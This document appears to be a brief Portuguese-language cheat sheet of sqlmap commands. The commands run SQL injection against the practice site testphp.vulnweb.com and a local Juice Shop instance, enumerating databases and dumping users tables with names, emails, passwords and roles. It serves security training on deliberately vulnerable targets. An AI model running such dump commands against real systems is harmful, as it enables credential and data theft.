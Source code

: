 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs
```
```
sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump
``` 
Database Schema Juice-Shop
``` 
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users -C email,password,role,topSecret,username --dump --threads=4
```
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
